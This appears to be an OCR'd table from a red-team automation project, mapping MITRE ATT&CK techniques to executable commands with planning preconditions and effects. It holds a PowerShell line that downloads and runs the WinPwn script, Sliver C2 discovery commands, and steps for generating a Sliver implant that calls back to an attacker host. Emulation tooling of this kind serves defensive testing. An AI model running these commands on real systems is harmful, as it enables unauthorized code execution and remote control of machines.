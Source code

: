 | 5b6f39a2-6ec7-4783-a5fd-2c54a55409ed | WinPwn - General privesc checks | \['T1082'\] | ART | \['windows'\] | \['Discovery'\] | \['System Information Discovery'\] | General privesc checks using the otherchecks function of WinPwn | {'executor': 'Powershell Executor', 'command': "$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'\niex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')\notherchecks -noninteractive -consoleoutput"} | None | \['(powershell ?executor - executor ?target - host)', '(os_windows ?target - host)'\] | \['(system_time_info_known ?target - host)'\] |
| 3b3809b6-a54b-4f5b-8aff-cb51f2e97b34 | Process Discovery - Get-Process | \['T1057'\] | ART | \['windows'\] | \['Discovery'\] | \['Process Discovery'\] | Utilize Get-Process PowerShell cmdlet to identify processes.<br><br>Upon successful execution, powershell.exe will execute Get-Process to list processes. Output will be via stdout. <br> | {'executor': 'Powershell Executor', 'command': 'Get-Process\n'} | None | \['(powershell ?executor - executor ?target - host)', '(os_windows ?target - host)'\] | \['(process_info_known ?target - host)'\] |
| f9c1197c-c5ef-4368-a10c-3a53003dbfbf | Remote Directory Listing | \['T1083'\] | Sliver | \['windows', 'linux', 'macos'\] | \['Discovery'\] | \['File and Directory Discovery'\] | The `ls <remote path>` command lists files and directories in a specified remote path or the current directory if no path is provided. By default, it sorts listings by name in ascending order, but can also sort by size or modified time, with options to reverse the order. The command includes flags for sorting, reversing order, and setting a timeout. | {'executor': 'Sliver Executor', 'command': 'ls(#{SessionID})'} | {'SessionID': {'default': None, 'description': 'The session ID of the active Sliver connection.', 'type': None}} | \[{'operator': 'or', 'operands': \['(os_windows ?t - host)', '(os_linux ?t - host)', '(os_macos ?t - host)'\]}, '(sliver_session ?s - executor ?t - host)'\] | \['(file_info_known ?t - host)'\] |
| 36b514af-486f-44ad-9f56-09c9d904851d | Get Current Working Directory | \['T1083'\] | Sliver | \['windows', 'linux', 'macos'\] | \['Discovery'\] | \['File and Directory Discovery'\] | The `pwd` command returns the current working directory of the remote system. It helps to determine the current directory where commands are being executed on the remote machine, which is crucial for file management and executing further commands. The command includes flags for setting a timeout. | {'executor': 'Sliver Executor', 'command': 'pwd(#{SessionID})'} | {'SessionID': {'description': 'The session ID of the active Sliver connection.'}} | \[{'operator': 'or', 'operands': \['(os_windows ?t - host)', '(os_linux ?t - host)', '(os_macos ?t - host)'\]}, '(sliver_session ?s - executor ?t - host)'\] | \['(current_directory_info_known ?t - host)'\] |
| cf6f614c-83c9-4018-911b-c432bb95acfd | User Context Verification | \['T1087.001'\] | Sliver | \['windows', 'linux', 'macos'\] | \['Discovery'\] | \['Account Discovery: Local Account\n'\] | The `whoami` command retrieves the current user identity of the system. It executes the command on the remote system and returns the username of the account that is currently logged in. This command includes flag for setting a timeout. | {'executor': 'Sliver Executor', 'command': 'whoami(#{SessionID})'} | {'SessionID': {'description': 'The session ID of the active Sliver connection.'}} | \[{'operator': 'or', 'operands': \['(os_windows ?t - host)', '(os_linux ?t - host)', '(os_macos ?t - host)'\]}, '(sliver_session ?s - executor ?t - host)'\] | \['(user_info_known ?t - host)'\] |
| 877d3366-eab3-4f43-bd24-26b37eb70266 | Remote Processes List | \['T1057'\] | Sliver | \['windows', 'linux', 'macos'\] | \['Discovery'\] | \['Process Discovery'\] | The `ps` command lists all running processes on a remote system. It returns a list of processes with details such as the process ID (PID) and executable name. The command includes flags for exe, overflowing terminal width, filtering based on owner/pid, printing command line arguments, skipping the first n page(s), printing process tree and setting outtime. | {'executor': 'Sliver Executor', 'command': 'ps(#{SessionID})'} | {'SessionID': {'description': 'The session ID of the active Sliver connection.'}} | \[{'operator': 'or', 'operands': \['(os_windows ?t - host)', '(os_linux ?t - host)', '(os_macos ?t - host)'\]}, '(sliver_session ?s - executor ?t - host)'\] | \['(processes_info_known ?t - host)'\] |
| 0e67b73a-9927-43e1-8f64-04d38f1db57d | Build the executable file of a Sliver implant (for Windows) | \['T1071.001'\] | Manual | \['windows'\] | \['Command and Control'\] | \['Application Layer Protocol - Web Protocols'\] | The command is used in the Sliver C2 (Command and Control) framework to generate a payload designed for remote access to a target machine.<br> | {'executor': 'Sliver Console', 'command': 'sliver > generate --mtls #{LHOST}:#{LPORT} --os windows --arch 64bit --format exe --save #{SAVE_PATH}\nsliver > mtls --lport #{LPORT}\n'} | {'LHOST': {'default': None, 'description': 'IP address of the attacker machine', 'type': None}, 'LPORT': {'default': None, 'description': 'listening port of the attacter machine', 'type': None}, 'SAVE_PATH': {'default': None, 'description': 'Saved path of the generated payload', 'type': None}} | \['(os_windows ?target - host)', '(unallocated ?p - payload)', '(unallocated ?file - file)'\] | \['(sliver_implant_payload ?p - payload ?target - host)', '(file_payload ?p - payload ?file - file)', '(file_prepared_local ?file - file)', '(exe_file ?file - file)', '~(unallocated ?p - payload)', '~(unallocated ?file - file)'\] |